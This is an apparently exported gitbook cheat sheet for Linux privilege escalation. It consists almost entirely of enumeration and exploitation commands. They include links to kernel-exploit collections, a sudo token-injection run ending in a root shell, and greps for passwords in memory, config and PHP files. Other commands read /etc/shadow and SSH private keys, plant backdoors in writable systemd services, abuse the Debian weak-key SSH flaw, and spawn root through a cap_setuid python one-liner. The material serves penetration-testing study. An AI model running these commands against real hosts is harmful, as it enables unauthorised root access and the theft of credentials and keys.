

# Enumeration

## system information

### &#x20;distribution type and version

#### `cat /etc/issue` ` cat /etc/*-release` ` cat /etc/lsb-release # Debian based` ` cat /etc/redhat-release # Redhat based`

### kernel version

#### `cat /proc/version` ` uname -a` ` uname -mrs` ` cat /proc/$$/status | grep "[UG]id"` ` rpm -q kernel` ` dmesg | grep Linux` ` ls /boot | grep vmlinuz-`

### places to find kernel exploits:

[https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack)\
&#x20;[https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)\
&#x20;[https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)\
&#x20;[https://github.com/bwbwbwbw/linux-exploit-binaries](https://github.com/bwbwbwbw/linux-exploit-binaries)

#### To extract all the vulnerable kernel versions from that web you can do:

#### `curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '`

#### Tools that could help searching for kernel exploits are:

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)\
&#x20;[https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)\
&#x20;[http://www.securitysift.com/download/linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py)

### Big UID 

Some Linux versions were affected by a bug that allow users with **UID > INT\_MAX** to escalate privileges. More info: [here](https://gitlab.freedesktop.org/polkit/polkit/issues/74), [here](https://github.com/mirchr/security-research/blob/master/vulnerabilities/CVE-2018-19788.sh) and [here](https://twitter.com/paragonsec/status/1071152249529884674). **Exploit it** using: **`systemd-run -t /bin/bash`**

### sudo\_inject

#### this has requirements, doesn't work all the time:(

#### clone the repository and run the script: [sudo\_inject](https://github.com/nongiach/sudo\_inject)  requirements:

#### `$ sudo whatever` ` [sudo] password for user:` ` # Press+c since you don't have the password.` ` # This creates an invalid sudo tokens.` ` $ sh exploit.sh` ` .... wait 1 seconds` ` $ sudo -i # no password required :)` ` # id` ` uid=0(root) gid=0(root) groups=0(root)`

#### for more methods related to sudo refer to [sudo abuse](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/sudo-abuse) section.

### &#x20;environmental variables

see [environment variables section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/environment-variables) for methods

#### `cat /etc/profile` ` cat /home/*/.bashrc | grep alias | grep -v "#"` ` cat /root/.bashrc | grep alias | grep -v "#"` ` cat ~/.bash_profile` ` cat ~/.bashrc` ` cat ~/.bash_logout` ` env` ` set`

### in-memory password

#### `strings /dev/mem -n10 | grep -i PASS`

### driver info

#### `lsmod` ` /sbin/modinfo [lib]` ` ls /dev 2>/dev/null | grep -i "sd"` ` cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null` `` ` #Check if credentials in fstab` ` grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`

### available shells

#### `cat /etc/shells |grep "bin"|cut -d "/" -f3 2>/dev/null`

### programming languages

#### ``progr_dev=( "which perl" "which gcc" "which g++" "which python" "which php" "which cc" "which go" "which node") ;for programming_lang in "${progr_dev[@]}"; do pss=`$programming_lang |cut -d"/" -f4` ;if [ "$pss" ]; then echo -e "$pss" ;fi done``

### check emails

#### `mail && ls -alh /var/mail/`

### &#x20;printers

#### &#x20;`lpstat -a`

### &#x20;network connections/hosts

#### &#x20;`lsof -i` ` lsof -i :80` ` grep 80 /etc/services` ` netstat -antup` ` netstat -antpx` ` netstat -tulpn` ` chkconfig --list` ` chkconfig --list | grep 3:on` ` last` ` w` ` cat /etc/sudoers`

### &#x20;available file transfer methods

#### &#x20;`find / -name wget` ` find / -name nc*` ` find / -name netcat*` ` find / -name tftp*` ` find / -name ftp`

## users and accounts

### check for sudo access

#### &#x20;`sudo -l |grep vim` ` sudo -l |grep nmap` ` sudo -l |grep vi` ` sudo -l`

### &#x20;users UID and GID

#### `for user in $(cat /etc/passwd | cut -f1 -d":"); do id $user; done`

### &#x20;UID 0  accounts (root)

#### `cat /etc/passwd |cut -f1,3,4 -d":" |grep "0:0" |cut -f1 -d":"|awk '{print $1}'`

### &#x20;users readable history file

#### &#x20;`find /home/* -name *.*history* -print 2> /dev/null`

### &#x20;check history

#### &#x20;`cat ~/.bash_history` ` cat ~/.nano_history` ` cat ~/.atftp_history` ` cat ~/.mysql_history` ` cat ~/.php_history`

### &#x20;user info

#### &#x20;`cat ~/.bashrc` ` cat ~/.profile` ` cat /var/mail/root` ` cat /var/spool/mail/root`

## Possible defenses

#### &#x20; AppArmor

#### &#x20;``if [ `which aa-status 2>/dev/null` ]; then`` ` aa-status` `` elif [ `which apparmor_status 2>/dev/null` ]; then`` ` apparmor_status` `` elif [ `ls -d /etc/apparmor* 2>/dev/null` ]; then`` ` ls -d /etc/apparmor*` ` else` ` echo "Not found AppArmor"` ` fi`

#### &#x20;Grsecurity

#### `((uname -r | grep "\-grsec" >/dev/null 2>&1 || grep "grsecurity" /etc/sysctl.conf >/dev/null 2>&1) && echo "Yes" || echo "Not found grsecurity")`   PaX

#### `(which paxctl-ng paxctl >/dev/null 2>&1 && echo "Yes" || echo "Not found PaX")` 

#### &#x20;Execshield

#### `(grep "exec-shield" /etc/sysctl.conf || echo "Not found Execshield")`   SElinux

#### &#x20;`(sestatus 2>/dev/null || echo "Not found sestatus")`   ASLR

#### &#x20;`cat /proc/sys/kernel/randomize_va_space 2>/dev/null` ` #If 0, not enabled`

## network

### network configurations

#### &#x20;`cat /etc/resolv.conf` ` cat /etc/sysconfig/network` ` cat /etc/networks` ` iptables -L` ` hostname` ` dnsdomainname`

### &#x20;network status

#### &#x20;`ss -anp` ` netstat -ano` ` /sbin/ifconfig -a` ` cat /etc/network/interfaces` ` cat /etc/sysconfig/network` ` arp -e` ` route` ` /sbin/route -nee`

### &#x20;try packet sniffing

#### &#x20;`tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21`

### &#x20;firewall rules

#### &#x20;`/etc/iptables` ` iptables -L` ` grep -Hs iptables /etc/*`

### &#x20;hosts and DNS&#x20;

#### `cat /etc/hosts 2>/dev/null && cat /etc/resolv.conf 2>/dev/null && cat /etc/sysconfig/network 2>/dev/null && cat /etc/networks 2>/dev/null | uniq | srt | grep -v '#'`

### ssh root login status

#### &#x20;`cat /etc/ssh/sshd_config | grep PermitRootLogin | grep -v "#"`

### ssh info

#### `cat ~/.ssh/identity.pub ~/.ssh/authorized_keys ~/.ssh/identity ~/.ssh/id_rsa.pub ~/.ssh/id_rsa ~/.ssh/id_dsa.pub ~/.ssh/id_dsa /etc/ssh/ssh_config /etc/ssh/sshd_config /etc/ssh/ssh_host_dsa_key.pub /etc/ssh/ssh_host_dsa_key /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa_key /etc/ssh/ssh_host_key.pub /etc/ssh/ssh_host_key 2>/dev/null`

## tasks and processes

process binaries paths and permissions

#### `ps aux | awk '{print $11}' |xargs -r ls -la 2>/dev/null |awk '!x[$0]++'`

### find new running processes

#### `#!/bin/bash` ` #Loop by line` ` IFS=$'\n'` ` old_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)` ` while true; do` ` new_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)` ` diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]` ` sleep 1` ` old_process=$new_process`

### &#x20;check services and privileges&#x20;

#### &#x20;`ps aux` ` ps -ef` ` ps aux | grep "^root"` ` top` ` cat /etc/services`

#### &#x20;Which service(s) are been running by root? Of these services, which are vulnerable - it's worth a double check!

#### &#x20;`ps aux | grep root` ` ps -ef | grep root`

#### &#x20;What applications are installed? What version are they? Are they currently running?

#### &#x20;`ls -alh /usr/bin/` ` ls -alh /sbin/` ` dpkg -l | grep` ` rpm -qa | grep` ` ls -alh /var/cache/apt/archives` ` ls -alh /var/cache/yum/`

### &#x20;scheduled Tasks

see [cron/crontab abuse section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/cron-crontab-abuse) for methods

#### &#x20;`ls -lah /etc/cron*` ` cat /etc/crontab` ` crontab -l` ` ls -alh /var/spool/cron` ` ls -al /etc/ | grep cron` ` ls -al /etc/cron*` ` cat /etc/cron*` ` cat /etc/at.allow` ` cat /etc/at.deny` ` cat /etc/cron.allow` ` cat /etc/cron.deny` ` cat /etc/crontab` ` cat /etc/anacrontab` ` cat /var/spool/cron/crontabs/root`

## process monitoring

\
&#x20;[this](https://github.com/DominicBreuker/pspy) can be very useful to identify vulnerable processes being executed frequently or when a set of requirements are met.

### **Process memory**

#### &#x20;Some services of a server save credentials in clear text inside the memory.  Normally you will need root privileges to read the memory of processes that belong to other users, therefore this is usually more useful when you are already root and want to discover more credentials.  However, remember that as a regular user you can read the memory of the processes you own.   To dump a process memory you could use: [https://github.com/hajzer/bash-memory-dump](https://github.com/hajzer/bash-memory-dump)  You can manually remove root requirements and dump process owned by you   Script A.5 from [https://www.delaat.net/rp/2016-2017/p97/report.pdf](https://www.delaat.net/rp/2016-2017/p97/report.pdf) (root is required)  ** **

### &#x20;Process Memory Credentials

#### &#x20;[this tool](https://github.com/huntergregal/mimipenguin) will steal clear text credentials from memory and from some well known files. It requires root privileges to work properly.   

### &#x20;**/proc/$pid/maps & /proc/$pid/mem**

#### &#x20;For a given process ID, maps shows how memory is mapped within that processes' virtual address space; it also shows the permissions of each mapped region. The mem pseudo file exposes the processes memory itself. From the maps file we know which memory regions are readable and their offsets. We use this information to seek into the mem file and dump all readable regions to a file.    `procdump()` ` (` ` cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"` ` while read a b; do` ` dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \` ` skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"` ` done )` ` cat $1*.bin > $1.dump` ` rm $1*.bin` ` )`

### &#x20;**/dev/mem**

#### &#x20;/dev/mem provides access to the system's physical memory, not the virtual memory. The kernels virtual address space can be accessed using /dev/kmem. Typically, /dev/mem is only readable by root and kmem group.   `strings /dev/mem -n10 | grep -i PASS`

## programs and software

### enumerate useful binaries

#### `which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc rkt kubectl 2>/dev/null` 

### enumerate compilers

#### &#x20;`(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")`

### &#x20;installed software/packages

#### &#x20;`dpkg -l` ` rpm -q`

#### &#x20;

#### service(s) settings misconfigured? Are any (vulnerable) plugins attached? 

#### &#x20;`cat /etc/syslog.conf` ` cat /etc/chttp.conf` ` cat /etc/lighttpd.conf` ` cat /etc/cups/cupsd.conf` ` cat /etc/inetd.conf` ` cat /etc/apache2/apache2.conf` ` cat /etc/my.conf` ` cat /etc/httpd/conf/httpd.conf` ` cat /opt/lampp/etc/httpd.conf` ` ls -aRl /etc/ | awk '$1 ~ /^.*r.*/`

#### &#x20;Which configuration files can be written in /etc/? Able to reconfigure a service? 

#### &#x20;`ls -aRl /etc/ | awk '$1 ~ /^.*w.*/' 2>/dev/null # Anyone` ` ls -aRl /etc/ | awk '$1 ~ /^..w/' 2>/dev/null # Owner` ` ls -aRl /etc/ | awk '$1 ~ /^.....w/' 2>/dev/null # Group` ` ls -aRl /etc/ | awk '$1 ~ /w.$/' 2>/dev/null # Other` ` find /etc/ -readable -type f 2>/dev/null # Anyone` ` find /etc/ -readable -type f -maxdepth 1 2>/dev/null # Anyone` ` ls -alh /var/log` ` ls -alh /var/mail` ` ls -alh /var/spool` ` ls -alh /var/spool/lpd` ` ls -alh /var/lib/pgsql` ` ls -alh /var/lib/mysql` ` cat /var/lib/dhcp3/dhclient.leases` ` ls -alhR /var/www/` ` ls -alhR /srv/www/htdocs/` ` ls -alhR /usr/local/www/apache22/data/` ` ls -alhR /opt/lampp/htdocs/` ` ls -alhR /var/www/html/`

## Services 

### Writable _.service_ files 

Check if you can write any `.service` file, if you can, you **could modify it** so it **executes** your **backdoor when** the service is **started**, **restarted** or **stopped** (maybe you will need to wait until the machine is rebooted). For example create your backdoor inside the .service file with **`ExecStart=/tmp/script.sh`**

### Writable service binaries 

Keep in mid that if you have **write permissions over binaries being executed by services**, you can change them for backdoors so when the services get re-executed the backdoors will be executed.

### systemd PATH - Relative Paths 

You can see the PATH used by **systemd** with:

#### `systemctl show-environment`

If you find that you can **write** in any of the folders of the path you may be able to **escalate privileges**.You need to search for **relative paths being used on service configurations**

Then, create a **executable** with the **same name as the relative path binary** inside the systemd PATH folder you can write, and when the service is asked to execute the vulnerable action (**Start**, **Stop**, **Reload**), your **backdoor will be executed** (unprivileged users usually cannot start/stop services but check if you can using `sudo -l`).

## files and directories

### find all SUID/SGID binaries

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

#### check [SUID/SGID abuse](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/suid-sgid) section to see methods.

#### see [/etc/shadow & /etc/passwd section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/etc-shadow-and-etc-passwd) to see how you can use these files with read/write permission for privilege escalation.

#### see[ shared object injection section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/environment-variables) for methods related to SUID binaries and dynamically loadable libraries.

####

### NFS mounts

#### `showmount -e 192.168.1.25`

#### see [NFS section](https://7h3w4lk3r.gitbook.io/the-hive/network-attacks/untitled/privilege-escalation/nfs) for related methods.

### &#x20;find password in php files

#### `find / -maxdepth 5 -name *.php -type f -exec grep -Hn password {} \; 2>/dev/null`

### &#x20;find writable files

#### &#x20;`find / -writable -type d 2>/dev/null`

### &#x20;find SUID files

#### &#x20;`find / -perm -u=s -type f 2>/dev/null` ` find / -perm -4000 -type f 2>/dev/null`

### &#x20;Find SUID files owned by root

#### &#x20;`find / -uid 0 –perm -4000 –type f 2>/dev/null`

### &#x20;Find GUID files

#### &#x20;`find / -perm -2000 -type -f 2>/dev/null`

### &#x20;Find world-writable files

#### &#x20;`find -perm -2 -type f 2>/dev/null`

### &#x20;List all conf files in /etc/

#### &#x20;`ls -al /etc/*.conf` ` grep pass* /etc/*.conf >>> containing passwords`

### conf files with “pass\*” string

#### `grep pass* /etc/*.conf` ` grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null` ` find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`

### &#x20;list of open files

#### &#x20;`lsof -n`

### &#x20;last edited files

#### &#x20;`find / -mmin -10 2>/dev/null | grep -Ev "^/proc"`

### &#x20;R/W Files and Directories

#### &#x20;`find / -writable -type d 2>/dev/null`

### &#x20;mount volumes

#### &#x20;`cat /etc/fstab` ` mount` ` /bin/lsblk`

### &#x20;search for SUID set

#### &#x20;`find / -perm -u=s -type f 2>/dev/null`

### &#x20;plain text usernames/passwords

#### `grep -i user [filename]` ` grep -i pass [filename]` ` grep -C 5 "password" [filename]` ` find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla`

#### &#x20;What sensitive files can be found? 

#### &#x20;`cat /etc/passwd` ` cat /etc/group` ` cat /etc/shadow` ` ls -alh /var/mail/`

### &#x20;ssh key info 

#### &#x20;`cat ~/.ssh/authorized_keys` ` cat ~/.ssh/identity.pub` ` cat ~/.ssh/identity` ` cat ~/.ssh/id_rsa.pub` ` cat ~/.ssh/id_rsa` ` cat ~/.ssh/id_dsa.pub` ` cat ~/.ssh/id_dsa` ` cat /etc/ssh/ssh_config` ` cat /etc/ssh/sshd_config` ` cat /etc/ssh/ssh_host_dsa_key.pub` ` cat /etc/ssh/ssh_host_dsa_key` ` cat /etc/ssh/ssh_host_rsa_key.pub` ` cat /etc/ssh/ssh_host_rsa_key` ` cat /etc/ssh/ssh_host_key.pub` ` cat /etc/ssh/ssh_host_key`

SSH Key Predictable PRNG (Authorized\_Keys) Process\

#### &#x20; use an obtained authorized\_keys file on a host system.  Needed : SSH-DSS String from authorized\_keys file   1. Get the authorized\_keys file. An example of this file would look like so:  

#### `ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ...`

#### &#x20;2. Since this is an ssh-dss key, we need to add that to our local copy of /etc/ssh/ssh\_config and /etc/ssh/sshd\_config: 

#### &#x20;`echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config` ` echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshs_config` ` /etc/init.d/ssh restart` ``

#### &#x20; Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

#### &#x20;`git clone https://github.com/g0tmi1k/debian-ssh` ` cd debian-ssh` `` ` tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2` ``

#### &#x20;3. Grab the first 20 or 30 bytes from the key file shown above starting with the "AAAA..." portion and grep the unpacked keys with it as: 

#### &#x20;`grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'` ` dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub` `` ``

#### &#x20;5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do: 

#### &#x20;`ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934` ``

#### &#x20; And you should connect without requiring a password. If stuck, the -vvv verbosity should provide enough details as to why.

log files\

#### &#x20;`cat /etc/httpd/logs/access_log` ` cat /etc/httpd/logs/access.log` ` cat /etc/httpd/logs/error_log` ` cat /etc/httpd/logs/error.log` ` cat /var/log/apache2/access_log` ` cat /var/log/apache2/access.log` ` cat /var/log/apache2/error_log` ` cat /var/log/apache2/error.log` ` cat /var/log/apache/access_log` ` cat /var/log/apache/access.log` ` cat /var/log/auth.log` ` cat /var/log/chttp.log`

Capabilities\

### &#x20;List capabilities of binaries

#### &#x20;`/usr/bin/getcap -r /usr/bin`

#### &#x20;Edit capabilities 

#### &#x20;`/usr/bin/setcap -r /bin/ping # remove` ` /usr/bin/setcap cap_net_raw+p /bin/ping # add`

#### &#x20;Interesting capabilities  Having the capability =ep means the binary has all the capabilities. 

#### &#x20;`$ getcap openssl /usr/bin/openssl` ` openssl=ep`

#### &#x20;Alternatively the following capabilities can be used in order to upgrade your current privileges. 

#### &#x20;`cap_dac_read_search # read anything` ` cap_setuid+ep # setuid`

#### &#x20;Example of privilege escalation with cap\_setuid+ep 

#### &#x20;`sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7` ` python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'` ` sh-5.0# id` ` uid=0(root) gid=1000(swissky)` `>`

